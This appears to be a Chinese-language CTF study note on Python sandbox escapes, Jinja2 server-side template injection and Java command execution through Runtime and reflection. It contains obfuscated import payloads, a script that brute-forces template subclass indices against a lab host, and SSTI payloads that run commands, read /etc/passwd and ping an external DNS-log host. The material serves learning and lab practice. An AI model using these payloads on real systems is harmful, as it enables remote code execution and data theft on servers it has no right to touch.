- python中类本身具有一些静态方法，如`bytes.fromhex`、`int.from_bytes`等。对于这些类的实例，也能调用这些静态方法。如`b'1'.fromhex('1234')`，返回`b'\x124'`。（一个特殊的例子是整数常量不支持这样操作，如输入`3.from_bytes`会报错）
- python中的类还具有一系列的魔术方法，这个特性可以对比php的魔术方法，以及C++的运算符重载等。一些函数的实现也是直接调用魔术方法的。常用的魔术方法有这些，更多可参考[这里](https://www.bing.com/search?q=python魔术方法&form=ANNTH1&refig=a9a53b48d6164751abc23a6515e40220)
- 相对应地，python的类中也包含着一些魔术属性：
  - `__dict__`：可以查看内部所有属性名和属性值组成的字典。
  - `__doc__`：类的帮助文档。默认类均有帮助文档。对于自定义的类，需要我们自己实现。
- 以及还有一些重要的内置函数和变量：
  - `dir`：查看对象的所有属性和方法。在我们没有思路的时候，可以通过该函数查看所有可以利用的方法；此外，在题目禁用引号以及小数点时，也可以先用拿到类所有可用方法，再索引到方法名，并且通过`getattr`来拿到目标方法。
  - `chr`、`ord`：字符与ASCII码转换函数，能帮我们绕过一些WAF
  - `globals`：返回所有全局变量的函数；
  - `locals`：返回所有局部变量的函数；
  - `__import__`：载入模块的函数。例如`import os`等价于`os = __import__('os')`；
  - `__name__`：该变量指示当前运行环境位于哪个模块中。如我们python一般写的`if __name__ == '__main__':`，就是来判断是否是直接运行该脚本。如果是从另外的地方import的该脚本的话，那`__name__`就不为`__main__`，就不会执行之后的代码。
  - `__builtins__`：包含当前运行环境中默认的所有函数与类。如上面所介绍的所有默认函数，如`str`、`chr`、`ord`、`dict`、`dir`等。在pyjail的沙箱中，往往`__builtins__`被置为`None`，因此我们不能利用上述的函数。所以一种思路就是我们可以先通过类的基类和子类拿到`__builtins__`，再`__import__('os').system('sh')`进行RCE；
  - `__file__`：该变量指示当前运行代码所在路径。如`open(__file__).read()`就是读取当前运行的python文件代码。需要注意的是，**该变量仅在运行代码文件时会产生，在运行交互式终端时不会有此变量**；
  - `_`：该变量返回上一次运行的python语句结果。需要注意的是，**该变量仅在运行交互式终端时会产生，在运行代码文件时不会有此变量**。

### 花式 import

1. `import os`可以，中间的空格输入几个都可以，`import   os`

2. `__import__`：`__import__('os')`

3.  `importlib`：`importlib.import_module('os').system('ls')`

4. 也可以直接执行一遍需要导入的库进行导入

   `Python2.x`

   ```python
   execfile('/usr/lib/python2.7/os.py')
   system('ls')
   ```

   `Python2.x`和`Python3.x`通用

   ```python
   with open('/usr/lib/python3.9/os.py') as f:
       exec(f.read())
   system('ls')
   ```

   不过要使用上面的这两种方法，就必须知道库的路径。其实在大多数的环境下，库都是默认路径。如果 `sys `没被干掉的话，还可以确认一下

   ```python
   import sys
   print(sys.path)
   ```

### 花式处理字符串

倒置，base编码，hex，字符串拼接，在通过利用`eval`或者`exec`

- `__import__('so'[::-1]).system('dir')`
- `eval(')"imaohw"(metsys.)"so"(__tropmi__'[::-1])`
- `eval(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2Rpcicp').decode('utf-8'))`
- `eval(b'1'.fromhex('5f5f696d706f72745f5f28276f7327292e73797374656d28276469722729').decode('utf-8'))`
- `eval(bytes.fromhex('5f5f696d706f72745f5f28276f7327292e73797374656d28276469722729').decode('utf-8'))`
- `a='o';b='s';__import__(a+b).system('dir')`
- 

## SSTI

[X3NNY/sstilabs: A lab to help you learning SSTI (github.com)](https://github.com/X3NNY/sstilabs)

### SSTI简介

SSTI就是服务器模板注入 当前使用的一些框架，比如python的flask，php的tp，java的spring等一般都采用成熟的MVC的模式，用户 的输入先进入Controller控制器，然后根据请求类型和请求的指令发送给对应Model业务模型进行业务逻辑 判断，数据库存取，最后把结果返回给View视图层，经过模板渲染展示给用户。

漏洞成因就是服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分， 模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息 泄露、代码执行、GetShell 等问题。其影响范围主要取决于模版引擎的复杂性。

凡是使用模板的地方都可能会出现 SSTI 的问题，SSTI 不属于任何一种语言，沙盒绕过也不是，沙盒绕过只 是由于模板引擎发现了很大的安全漏洞，然后模板引擎设计出来的一种防护机制，不允许使用没有定义或者 声明的模块，这适用于所有的模板引擎。

### 模板是什么

模板引擎（特指web开发的模板引擎）是为了使用户界面与业务数据（内容）分离而产生的，他可以生成特 定格式的文档，用于网站的模板引擎就会生成一个标准的HTML文档。 模板引擎会提供一套生成 HTML 代码的程序，然后只需要获取用户的数据，然后放到渲染函数里，然后生成 模板+用户数据的前端 HTML 页面，然后反馈给浏览器，呈现在用户面前。 它可以理解为一段固定好格式，等着你来填充信息的文件。通过这种方法，可以做到逻辑与视图分离，更容 易、清楚且相对安全地编写前后端不同的逻辑。

### 漏洞成因

ssti主要为python的一些框架 jinja2 mako tornado django，PHP框架smarty twig，java框架jade velocity 等等使用了渲染函数时，由于代码不规范或信任了用户输入而导致了服务端模板注入，模板渲染其实并没有 漏洞，主要是程序员对代码不规范不严谨造成了模板注入漏洞，造成模板可控。

### SSTI基础知识

##### Python-flask模板

Python-Flask使用Jinja2作为渲染引擎 （Jinja2.10.x Documention）

 jinja2是Flask作者开发的一个模板系统，起初是仿django模板的一个模板引擎，为Flask提供模板支持，由 于其灵活，快速和安全等优点被广泛使用。

在jinja2中，存在三种语法：

```
 用来声明变量
{{ ... }} 用来将表达式打印到模板输出
{# ... #} 表示未包含在模板输出中的注释
在模板注入中，主要使用的是{{}} 和 
检测是否存在ssti
在url后面，或是参数中添加 {{ 6*6 }} ，查看返回的页面中是否有 36
```

jinja2模板中使用 {{ }} 语法表示一个变量，它是一种特殊的占位符。当利用jinja2进行渲染的时候，它会把这 些特殊的占位符进行填充/替换，jinja2支持python中所有的Python数据类型比如列表、字段、对象等 

jinja2中的过滤器可以理解为是jinja2里面的内置函数和字符串处理函数。

被两个括号包裹的内容会输出其表达式的值

##### Python中的一些 Magic Method

在Python中，所有以“”双下划线包起来的方法，都统称为“Magic Method”，中文称『魔术方法』,例如类的 初始化方法`__init__`

一些做SSTI类题目时常用的属性和方法

```
属性
__class__：用于获取当前对象所对应的类
__base__：用于获取该类的直接父类（基类）
__bases__：返回一个类直接所继承的类（元组形式）
__mro__：返回一个类所继承的所有类
__dict__：返回当前类的函数、全局变量、属性等
__init__：用于将对象实例化，所有类都具有 __init__ 方法，便于利用它来作为跳板访问 __globals__
__globals__：function.__globals 用于获取function所处空间下可使用的module、方法以及所有变量
__builtins__：获取python内置的方法比如ord、chr等
方法
__subclasses__：返回该类的所有直接子类
__import__：动态加载类和函数，也就是导入模块，经常用于导入os模块
__getattribute__：在访问对象的属性时进行自定义处理。无论对象中的属性是否存在，只要访问对象的属性，就会无条件进入
__getattr__：访问对象中不存在的属性时进行处理。当对象中没有被访问的属性时，Python解释器会自动调用该方法
```

爆破需要的模块的EXP：

```Python
import requests
from lxml import html

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36',
}

url = "http://192.168.159.128:50000/level/1"

NUM = 500

if __name__ == "__main__":

    # # 查找类
    # find_class = "importlib"
    # for i in range(NUM):
    #
    #     data_class1 = {
    #         'code': "{{().__class__.__bases__[0].__subclasses__()[%d]}}" % i
    #     }
    #
    #     res = requests.post(url=url, data=data_class1, headers=headers)
    #     if find_class in res.text:
    #         tree = html.fromstring(res.text)
    #         print(str(i) + " -> " + tree.text)

    # 查找类方法
    find_method = "load_module"
    for i in range(NUM):

        data_method = {
            'code': "{{().__class__.__bases__[0].__subclasses__()[%d].__init__.__globals__}}" % i
        }

        data_class = {
            'code': "{{().__class__.__bases__[0].__subclasses__()[%d]}}" % i
        }

        res = requests.post(url=url, data=data_method, headers=headers)
        if find_method in res.text:
            res2 = requests.post(url=url, data=data_class, headers=headers)
            tree = html.fromstring(res2.text)
            print(str(i) + " -> " + tree.text)

    # # 查看内置函数
    # for i in range(NUM):
    #     data_builtins = {
    #         'code': "{{().__class__.__bases__[0].__subclasses__()[%i].__init__.__globals__['__builtins__']}}" % i
    #     }
    #
    #     res3 = requests.post(url=url, data=data_builtins, headers=headers)
    #     if res3.text != "Hello " and res3.text != "No this level":
    #         print(html.fromstring(res3.text).text.replace("\n", "【回车】"))
    #         break

    # # 查看某个类的__globals__
    # data_globals = {
    #     'code': "{{().__class__.__bases__[0].__subclasses__()[" + str(133) + "].__init__.__globals__}}"
    # }
    #
    # res3 = requests.post(url=url, data=data_globals, headers=headers)
    # if res3.text != "Hello " and res3.text != "No this level":
    #     print(html.fromstring(res3.text).text.replace("\n", "【回车】"))

```



```
<class 'os._wrap_close'>类：
利用popen()执行命令：().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['popen']('whoami').read()
利用system()执行命令：().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['system']('ping 78319.UOFOS5Q7RU.dns.xms.la')

通过__builtins__获取内置方法，能够调用__builtins__即可，测试很多类都能够调用：
利用eval()执行命令：().__class__.__bases__[0].__subclasses__()[465].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat ./flag").read()')
通过open()查看flag：().__class__.__bases__[0].__subclasses__()[465].__init__.__globals__['__builtins__']['open']('./flag', 'r').read()

<class 'subprocess.Popen'>类：
利用subprocess.run()执行命令：().__class__.__bases__[0].__subclasses__()[396].__init__.__globals__['run']('whoami', capture_output=True, text=True).stdout
利用subprocess.Popen()执行命令：().__class__.__bases__[0].__subclasses__()[396].__init__.__globals__['Popen'](["touch", "./456"])

<class '_frozen_importlib.BuiltinImporter'>类：
利用load_module()加载模块os进行执行命令：().__class__.__bases__[0].__subclasses__()[84]['load_module']("os")["popen"]("ls").read()

利用linecache函数执行命令，有几个类都有这个函数：
linecache()这个函数中也引入了os模块：().__class__.__bases__[0].__subclasses__()[259].__init__.__globals__['linecache'].os.popen('dir').read()

<class '_frozen_importlib_external.FileLoader'>类：
通过get_data函数读取文件内容：().__class__.__bases__[0].__subclasses__()[94]["get_data"](0, "/etc/passwd")

os模块执行命令:
通过config，调用os模块：config.__class__.__init__.__globals__['os'].popen('whoami')
通过url_for，调用os：{url_for.__globals__.os.popen('whoami').read()
在已经加载os模块的子类里直接调用os模块：''.__class__.__bases__[0].__subclasses__()[341].__init__.__globals__['os'].popen("ls -l").read()
```

`subprocess.Popen()`

`os.system()`


`linecache()`执行命令




解析`{{().__class__.__bases__[0].__subclasses__()[%i].__init__.__globals__['__builtins__']}}`


>`__class__.__base__.__subclasses__()` 列表中通常不会包含 `file` 类的子类，因为在 Python 3 中，`file` 类已经被移除，不再是内置类型。
>
>在早期版本的 Python（Python 2.x）中，`file` 类用于表示文件对象，并作为内置的文件 I/O 类型。但从 Python 3 开始，`file` 类被替代为内置的 `io` 模块中的 `io.TextIOWrapper` 和 `io.BufferedIOBase` 等类。
>
>在 Python 3 中，文件 I/O 操作应该使用 `open()` 函数来打开文件，而不是直接使用 `file` 类。`open()` 函数返回一个文件对象，它是 `io.TextIOWrapper` 或 `io.BufferedIOBase` 的实例，可以用于进行文件读写操作。

### waf绕过


## Flask框架session伪造


## Python中@的用法

在Python中，`@`符号被用作修饰符的标志。修饰符用于修改函数、方法或类的行为，并且可以使代码更加简洁和易读。修饰符是Python的一个强大特性，可以在不修改原始函数或类的情况下，通过附加额外的功能来扩展其行为。

以下是`@`符号在Python中的常见用法：

- 函数修饰符：将修饰符应用于函数，用于增加或修改函数的功能。

```python
def my_decorator(func):
    def wrapper():
        print("Something is happening before the function is called.")
        func()
        print("Something is happening after the function is called.")
    return wrapper

@my_decorator
def say_hello():
    print("Hello!")

say_hello()
```


- 类方法修饰符：将修饰符应用于类的方法，用于定义静态方法、类方法或属性。

```python
class MyClass:
    @staticmethod
    def static_method():
        print("This is a static method.")

    @classmethod
    def class_method(cls):
        print("This is a class method.")

    @property
    def my_property(self):
        return "This is a property."

MyClass.static_method()
MyClass.class_method()

my_instance = MyClass()
print(my_instance.my_property)
```


- 类修饰符：将修饰符应用于类，用于修改类的行为或特性。

```python
def add_method_to_class(cls):
    def hello(self):
        print("Hello from the class method!")
    cls.say_hello = hello
    return cls

@add_method_to_class
class MyClass:
    pass

my_instance = MyClass()
my_instance.say_hello()
```

## hebust教务系统逆向

```python
https://github.com/wi1shu7/fuck_hebust_login
    
    
class InformationHandler:
    def __init__(self):
        self.modules = {}

    def register_module(self, module_name, module_function):
        self.modules[module_name] = module_function

    def process_information(self, information):
        # 假设信息格式为：-[模块] [参数1] [参数2] ...
        info_list = information.split()
        if len(info_list) < 2:
            raise ValueError("信息格式不正确！")
        
        module_name = info_list[0][2:]  # 去掉前面的“-”
        module_function = self.modules.get(module_name)
        if module_function is None:
            raise ValueError(f"找不到对应的模块：{module_name}")

        arguments = info_list[1:]
        return module_function(*arguments)

# 示例模块函数
def module_function_example(param1, param2):
    return f"模块函数示例：参数1={param1}，参数2={param2}"

if __name__ == "__main__":
    handler = InformationHandler()
    handler.register_module("模块名示例", module_function_example)

    information1 = "-模块名示例 参数1 参数2"
    result1 = handler.process_information(information1)
    print(result1)  # 输出：模块函数示例：参数1=参数1，参数2=参数2

```

## JWT漏洞


## Java安全

### 命令执行

最基本的 java中的命令执行

```Java
import java.io.IOException;

public class Calc {
    //当前执行命令无回显
    public static void main(String[] args) throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

>`Runtime`类表示运行时环境，并提供与运行时环境交互的方法：
>
>1. `exec(String command)`: 用于在系统的命令行执行指定的命令。
>2. `exec(String[] cmdarray)`: 用于在系统的命令行执行指定的命令，参数作为字符串数组传递。
>3. `exec(String command, String[] envp)`: 用于在系统的命令行执行指定的命令，并指定环境变量。
>4. `exec(String[] cmdarray, String[] envp)`: 用于在系统的命令行执行指定的命令，参数作为字符串数组传递，并指定环境变量。
>5. `exit(int status)`: 用于终止当前 Java 虚拟机。
>6. `freeMemory()`: 该方法用于返回Java虚拟机中的空闲内存量，以字节为单位。
>7. `maxMemory()`: 该方法用于返回Java虚拟机试图使用的最大内存量。
>8. `totalMemory()`: 该方法用于返回Java虚拟机中的内存总量。
>9. `availableProcessors()` : 返回虚拟机的处理器数量
>
>`Runtime`无法直接new 所以使用这个创建对象：`Runtime runtime = Runtime.getRuntime();`
>
>其中，最常用的方法是 `exec()` 方法，它允许你在 Java 程序中执行外部命令，`exec()`方法返回一个 `Process` 对象
>
>`Process` 类提供了以下方法来与子进程交互：
>
>1. `InputStream getInputStream()`: 获取子进程的标准输出流。
>2. `InputStream getErrorStream()`: 获取子进程的错误输出流。
>3. `OutputStream getOutputStream()`: 获取子进程的标准输入流。
>4. `int waitFor()`: 等待子进程执行完成并返回子进程的退出值。
>5. `int exitValue()`: 获取子进程的退出值（仅在子进程执行完成后才可调用）。

如果需要回显要用IO流将命令执行后的字节加载出来，然后最基本的按行读取，就可以了。

在进行网站开发入JSP的时候，我们使用的JSP一句话木马也是根据这个原理进行编写的。

```Java
import java.io.IOException;
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Main {
    public static void main(String[] args) throws IOException {
        Process p = Runtime.getRuntime().exec("whoami");
        InputStream is = p.getInputStream();
        InputStreamReader isr = new InputStreamReader(is, "GBK");
        BufferedReader ibr = new BufferedReader(isr);
        StringBuilder sb = new StringBuilder();
        String line = null;
        while((line = ibr.readLine()) != null){
            sb.append(line);
            System.out.println(line);
        }
        is.close();
        isr.close();
        ibr.close();
        is = null;
        isr = null;
        ibr = null;
    }
}
```

>四个模块：
>
>1. `java.io.IOException`: 这是 Java 的输入输出操作中最常见的异常类。它表示在进行输入和输出操作时可能出现的错误情况，例如文件不存在、权限问题、设备错误等。当执行输入输出操作时，如果发生异常，就可以通过捕获 `IOException` 异常来处理这些错误情况。
>2. `java.io.InputStream`: 这是一个字节输入流类，它是所有输入流的抽象基类。`InputStream` 用于从输入源（例如文件、网络连接、字节数组等）读取字节数据。它提供了 `read()` 方法用于读取单个字节，以及其他相关的方法用于读取多个字节数据。
>3. `java.io.InputStreamReader`: 这是一个字符输入流类，它是 `Reader` 类的子类。`InputStreamReader` 可以将字节输入流（`InputStream`）转换为字符输入流，从而可以方便地读取文本数据。它提供了和 `Reader` 类相似的方法，例如 `read()` 方法用于读取单个字符。
>4. `java.io.BufferedReader`: 这是一个字符缓冲输入流类，它继承自 `Reader` 类。`BufferedReader` 可以从字符输入流中读取文本数据，并以缓冲方式提高读取效率。它提供了 `readLine()` 方法用于逐行读取文本数据，常用于读取文本文件内容等场景。
>5. `StringBuilder` 是一个可变的字符串类，用于构建和修改字符串。用于处理大量字符串拼接和修改操作，避免频繁创建新的字符串对象，提高字符串处理性能。
>
>这些模块常常一起使用，例如在读取文本文件的场景中，可以使用 `FileInputStream`（字节输入流）读取文件的字节数据，然后通过 `InputStreamReader` 将字节数据转换为字符数据，最后再使用 `BufferedReader` 逐行读取字符数据。通过这种方式，可以高效地读取文本文件的内容，并处理可能出现的异常情况。

在不同的操作系统下，执行的命令的方式也是不一样的

#### Windows下

Windows下一班都会用`cmd`或者`powershell`去执行命令，但是powershell一般默认会限制执行策略，所以一般用`cmd`

```Java
String[] payload = {"cmd", "/c", "dir"};
Process p = Runtime.getRuntime().exec(payload);
```

#### Linux下

Linux一般使用`bash`执行命令，通常情况下是会有的，但是有的情况，可能没有bash，我们就可以使用`sh`来进行替代

```
String [] payload={"/bin/sh","-c","ls"}; 
Process p = Runtime.getRuntime().exec(payload);
```

>以下是一些常见 Shell 的二进制文件和对应的命令执行方式：
>
>1. Bash：
>   - 二进制文件路径：/bin/bash
>   - 命令执行方式：直接在终端中输入命令。
>2. Zsh：
>   - 二进制文件路径：/bin/zsh
>   - 命令执行方式：直接在终端中输入命令。
>3. Fish：
>   - 二进制文件路径：/usr/bin/fish
>   - 命令执行方式：在终端中使用 `fish -c 'command'` 的方式执行命令。
>4. Sh 或 Dash：
>   - 二进制文件路径：/bin/sh 或 /bin/dash（取决于系统配置）
>   - 命令执行方式：在终端中使用 `sh -c 'command'` 或 `dash -c 'command'` 的方式执行命令。

根据不同主机进行甄别：使用`getProperty`函数获取操作系统的名称

```Java
// System.getProperty("os.name");
System.out.println("操作系统：" + System.getProperty("os.name"));
// 操作系统：Windows 10
```

完整payload：

```Java
import java.io.IOException;
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Main {
    public static void main(String[] args) throws IOException {
        String sys = System.getProperty("os.name");
        String[] payload = null;
        System.out.println("操作系统：" + sys);
        if (sys.contains("Window")){
            String[] payloadCmd = {"cmd", "/c", "dir"};
            payload = payloadCmd.clone();
        }else{
            String[] payloadSh = {"/bin/sh", "-c", "ls"};
            payload = payloadSh.clone();
        }

        Process p = Runtime.getRuntime().exec(payload);
        InputStream is = p.getInputStream();
        InputStreamReader isr = new InputStreamReader(is, "GBK");
        BufferedReader ibr = new BufferedReader(isr);
        StringBuilder sb = new StringBuilder();
        String line = null;
        while((line = ibr.readLine()) != null){
            sb.append(line);
            System.out.println(line);
        }
        is.close();
        isr.close();
        ibr.close();
        is = null;
        isr = null;
        ibr = null;
    }
}
```

### 反射

[Java 类的初始化顺序 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/122554857)

Java有四个基本特征：封装，继承，多态，抽象

Java的反射（reflection）机制是指在程序的运行状态中，可以构造任意一个类的对象，可以了解任意一个对象所属的类，可以了解任意一个类的成员变量和方法，可以调用任意一个对象的属性和方法。本质上其实就是动态的生成类似于上述的字节码，加载到jvm中运行

1. Java反射机制的核心是在程序运行时动态加载类并获取类的详细信息，从而操作类或对象的属性和方法。
2. Java属于先编译再运行的语言，程序中对象的类型在编译期就确定下来了，而当程序在运行时可能需要动态加载某些类，这些类因为之前用不到，所以没有被加载到JVM。通过反射，可以在运行时动态地创建对象并调用其属性，不需要提前在编译期知道运行的对象是谁。
3. 反射调用方法时，会忽略权限检查，可以无视权限修改对应的值，因此容易导致安全性问题，（对安全研究人员来说提供了不小的帮助，hhhh）

这样⼀段代码，在你不知道传⼊的参数值 的时候，你是不知道他的作⽤是什么的：

```Java
public void execute(String className, String methodName) throws Exception {
    Class clazz = Class.forName(className);
 	clazz.getMethod(methodName).invoke(clazz.newInstance());
}
```

- 获取类的⽅法： `forName` 
- 实例化类对象的⽅法： `newInstance` 
- 获取函数的⽅法： `getMethod` 
- 执⾏函数的⽅法： `invoke`

#### 反射机制原理

反射机制的原理基础是理解Class类，类是java.lang.Class类的实例对象，而Class是所有的类的类。对于普通的对象，我们在创建实例的时候通常采用如下方法：

```java
Demo test = new Demo();
```

那么我们在创建class类的实例对象时是否可以同样用上面的方法创建呢

```java
Class c = new Class()；
```

答案是不行的，所以我们查看一下Class的源码，发现他的构造器是私有的，这意味着只有JVM可以创建Class的对象。


反射机制原理就是把Java类中的各种成分映射成一个个的Java对象，所以我们可以在运行时调用类中的所有成员（变量、方法）。下图是反射机制中类的加载过程：


#### 反射机制操作


> [通俗易懂的双亲委派机制_IT烂笔头的博客-CSDN博客](https://blog.csdn.net/codeyanbao/article/details/82875064)
>
> 1. 如果一个类加载器收到了类加载请求，它并不会自己先加载，而是把这个请求委托给父类的加载器去执行
> 2. 如果父类加载器还存在其父类加载器，则进一步向上委托，依次递归，请求最终将到达顶层的引导类加载器；
>
> 3. 如果父类加载器可以完成类加载任务，就成功返回，倘若父类加载器无法完成加载任务，子加载器才会尝试自己去加载，这就是双亲委派机制
>
> 4. 父类加载器一层一层往下分配任务，如果子类加载器能加载，则加载此类，如果将加载任务分配至系统类加载器也无法加载此类，则抛出异常
>    

##### 获取Class对象

有三种方式获得一个Class对象

1. 通过调用一个普通的其他类的`getClass()`方法获得Class对象
2. 任何数据类型（包括基本数据类型）都有一个“静态”的Class属性，所以直接调用.class属性获得Class对象
3. 调用Class类的forName方法，获得Class的对象


##### 获取成员方法Method

得到该类所有的方法，不包括父类的：
`public Method getDeclaredMethods() `

得到该类所有的public方法，包括父类的：
`public Method getMethods()`

>获取当前类指定的成员方法时，
>
>`Method method = class.getDeclaredMethod("方法名");`
>`Method[] method = class.getDeclaredMethod("方法名", 参数类型如String.class，多个参数用,号隔开);`



执行方法：`Process process = (Process) runtimeMethod.invoke(runtimeInstance, "calc");`

>###### `invoke()`方法
>
>`method.invoke(方法实例对象, 方法参数值，多个参数值用","隔开);`
>
>如果这个方法是一个普通方法，那么第一个参数是类对象，如果这个方法是一个静态方法，那么第一个参数是类。
>
>1. `invoke()`就是调用类中的方法，最简单的用法是可以把方法参数化`invoke(class, args)`
>    这里则是使用了` class.invoke(method,“参数”)`的一个方式
>2. 还可以把方法名存进数组`v[]`,然后循环里`invoke(test,v[i])`,就顺序调用了全部方法

##### 获取构造函数Constructor

获得该类所有的构造器，不包括其父类的构造器
`public Constructor<T> getDeclaredConstructors() `

获得该类所有public构造器，包括父类
`public Constructor<T> getConstructors() `

>###### `newInstance()`方法
>
>`class.newInstance()`的作用就是调用这个类的无参构造函数，这个比较好理解。不过，我们有时候 在写漏洞利用方法的时候，会发现使用`newInstance`总是不成功，这时候原因可能是：
>
>1.  你使用的类没有无参构造函数 
>2.  你使用的类构造函数是私有的
>
>最最最常见的情况就是`java.lang.Runtime`，这个类在我们构造命令执行Payload的时候很常见，但 我们不能直接这样来执行命令：
>
>```
>Class clazz = Class.forName("java.lang.Runtime");
>clazz.getMethod("exec", String.class).invoke(clazz.newInstance(), "id");
>```
>
>你会得到这样一个错误：
>
>
>
> 原因是 Runtime 类的构造方法是私有的。
>
>原因是`Runtime`类的构造方法是私有的。 有同学就比较好奇，为什么会有类的构造方法是私有的，难道他不想让用户使用这个类吗？这其实涉及 到很常见的设计模式：“单例模式”。（有时候工厂模式也会写成类似） 比如，对于Web应用来说，数据库连接只需要建立一次，而不是每次用到数据库的时候再新建立一个连 接，此时作为开发者你就可以将数据库连接使用的类的构造函数设置为私有，然后编写一个静态方法来 获取：
>
>```
>public class TrainDB {
>private static TrainDB instance = new TrainDB();
>public static TrainDB getInstance() {
>return instance;
>}
>private TrainDB() {
>// 建立连接的代码...
>}
>}
>```
>
>这样，只有类初始化的时候会执行一次构造函数，后面只能通过`getInstance`获取这个对象，避免建 立多个数据库连接。 回到正题，`Runtime`类就是单例模式，我们只能通过`Runtime.getRuntime()`来获取到`Runtime`对 象。我们将上述Payload进行修改即可正常执行命令了：
>
>```
>Class clazz = Class.forName("java.lang.Runtime");
>clazz.getMethod("exec", String.class).invoke(clazz.getMethod("getRuntime").invoke(clazz), "calc.exe");
>```
>
>
>
>```
>Class clazz = Class.forName("java.lang.ProcessBuilder");
>((ProcessBuilder)clazz.getConstructor(List.class).newInstance(Arrays.asList("calc.exe"))).start();
>```
>
>ProcessBuilder有两个构造函数：
>
>`public ProcessBuilder(List command)`
>`public ProcessBuilder(String... command)`
>
>我上面用到了第一个形式的构造函数，所以我在`getConstructor`的时候传入的是`List.class`。 但是，我们看到，前面这个Payload用到了Java里的强制类型转换，有时候我们利用漏洞的时候（在表 达式上下文中）是没有这种语法的。所以，我们仍需利用反射来完成这一步。 
>
>```Java
>Class clazz = Class.forName("java.lang.ProcessBuilder");
>clazz.getMethod("start").invoke(clazz.getConstructor(List.class).newInstance(Arrays.asList("calc.exe")));
>```
>
>通过`getMethod("start")`获取到`start`方法，然后`invoke`执行，`invoke`的第一个参数就是 ProcessBuilder Object了。
>
>那么，如果我们要使用`public ProcessBuilder(String... command)`这个构造函数，需要怎样用反 射执行呢？
>
>这又涉及到Java里的可变长参数（varargs）了。正如其他语言一样，Java也支持可变长参数，就是当你 定义函数的时候不确定参数数量的时候，可以使用 ... 这样的语法来表示“这个函数的参数个数是可变 的”。
>
>对于可变长参数，Java其实在编译的时候会编译成一个数组，也就是说，如下这两种写法在底层是等价的（也就不能重载）：
>
>```
>public void hello(String[] names) {}
>public void hello(String...names) {}
>```
>
>也由此，如果我们有一个数组，想传给hello函数，只需直接传即可：
>
>```
>String[] names = {"hello", "world"};
>hello(names);
>```
>
>那么对于反射来说，如果要获取的目标函数里包含可变长参数，其实我们认为它是数组就行了。
>
> 所以，我们将字符串数组的类`String[].class`传给`getConstructor`，获取`ProcessBuilder`的第二构造函数：
>
>```Java
>Class clazz = Class.forName("java.lang.ProcessBuilder");
>clazz.getConstructor(String[].class)
>```
>
>在调用 newInstance 的时候，因为这个函数本身接收的是一个可变长参数，我们传给 ProcessBuilder 的也是一个可变长参数，二者叠加为一个二维数组，所以整个Payload如下：
>
>```Java
>Class clazz = Class.forName("java.lang.ProcessBuilder");
>((ProcessBuilder)clazz.getConstructor(String[].class).newInstance(new String[][]{{"calc.exe"}})).start();
>```
>
>按反射来写的话就是：
>
>```java
>Class<?> clazz = Class.forName("java.lang.ProcessBuilder");     clazz.getMethod("start").invoke(clazz.getConstructor(String[].class).newInstance(new String[][]{{"calc.exe"}}));
>```
>
>```Java
>clazz.getMethod("start").invoke(clazz.getConstructor(String[].class).newInstance((Object[]) new String[]{"calc.exe"}));
>clazz.getMethod("start").invoke(clazz.getConstructor(String[].class).newInstance(new String[][]{{"calc.exe"}}));
>// 以上两种形式都能够运行，但是下面的格式就不能运行
>clazz.getMethod("start").invoke(clazz.getConstructor(String[].class).newInstance(new String[]{"calc.exe"}));
>/*
>报错信息为
>Exception in thread "main" java.lang.IllegalArgumentException: argument type mismatch
>at java.base/jdk.internal.reflect.NativeConstructorAccessorImpl.newInstance0(Native Method)
>at java.base/jdk.internal.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
>at java.base/jdk.internal.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
>at java.base/java.lang.reflect.Constructor.newInstance(Constructor.java:490)
>at Main.main(Main.java:115)
>*/
>```
>
>原因：
>
>这个问题是因为Java的反射API在处理数组类型参数时的特性。
>
>在Java中，数组也是对象，`String[]`和`String[][]`是两种不同的类型，不能互相转换。`String[]`是字符串数组，`String[][]`是字符串数组的数组（也可以理解为二维数组）。
>
>在代码中，`clazz.getConstructor(String[].class)`是寻找一个接受字符串数组作为参数的构造函数。因此，你需要传递一个字符串数组的实例给`newInstance()`方法。
>
>在你的第一段代码中，你创建了一个字符串数组`new String[]{"calc.exe"}`，并将其转换为`Object[]`，这是正确的，因此代码可以运行。
>
>在你的第二段代码中，你创建了一个字符串数组的数组`new String[][]{{"calc.exe"}}`，然后直接传递给`newInstance()`方法。这也是正确的，因为`newInstance()`方法接受的是一个`Object...`类型的参数，这意味着它可以接受任何数量和类型的参数。在这种情况下，你的字符串数组的数组被视为一个单独的参数，因此代码可以运行。
>
>然而，在你的第三段代码中，你创建了一个字符串数组`new String[]{"calc.exe"}`，然后直接传递给`newInstance()`方法。这是错误的，因为`newInstance()`方法期望一个字符串数组的实例，而你提供的是一个字符串数组。这就像尝试将一个`String[]`类型的对象传递给一个期望`String[][]`类型的参数，显然是不匹配的，因此你得到了`IllegalArgumentException: argument type mismatch`的错误。
>
>更详细地解释一下。
>
>在Java中，方法和构造函数的参数都是静态的，也就是说，它们在编译时就已经确定了。当你使用反射API来调用一个方法或构造函数时，你需要提供一个与原始参数类型完全匹配的参数列表。
>
>当你调用`clazz.getConstructor(String[].class)`时，你正在寻找一个接受单个参数的构造函数，这个参数的类型是`String[]`。这意味着，当你调用`newInstance()`方法时，你需要提供一个`Object[]`，这个数组包含一个`String[]`对象。
>
>在你的第一段代码中：
>
>```java
>clazz.getMethod("start").invoke(clazz.getConstructor(String[].class).newInstance((Object[]) new String[]{"calc.exe"}));
>```
>
